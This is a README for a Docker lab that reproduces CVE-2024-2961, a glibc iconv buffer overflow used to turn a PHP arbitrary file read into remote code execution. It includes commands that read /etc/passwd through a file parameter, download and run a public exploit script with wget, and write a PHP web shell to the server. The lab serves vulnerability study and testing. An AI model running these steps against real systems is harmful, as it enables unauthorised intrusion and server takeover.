

# PHP File Read to Remote Code Execution Through GNU C Library Iconv (CVE-2024-2961)

[中文版本(Chinese version)](README.zh-cn.md)

The GNU C Library is designed to be a backwards compatible, portable, and high performance ISO C library.

The `iconv()` function in the GNU C Library versions 2.39 and older may overflow the output buffer passed to it by up to 4 bytes when converting strings to the ISO-2022-CN-EXT character set, which may be used to crash an application or overwrite a neighbouring variable.

If an arbitrary file read vulnerability in PHP application, you can upgrade it to remote code execution through the `iconv()` issue CVE-2024-2961.

References:

- <https://www.ambionics.io/blog/iconv-cve-2024-2961-p1>

## Vulnerable environment

Execute following command to start a PHP 8.3.4 server with iconv 2.36:

```
docker compose up -d
```

After the server is started, you can read the `/etc/passwd` through `http://your-ip:8080/index.php?file=/etc/passwd`.

## Exploit

Before using the [exploit](https://github.com/ambionics/cnext-exploits), you have to prepare a Linux based system and the Python 3.10+.

Install the dependencies:

```
pip install pwntools
pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
```

Then download and run the POC from <https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py>:

```
wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
python cnext-exploit.py http://your-ip:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
```



As you can see, `shell.php` has been written successfully:


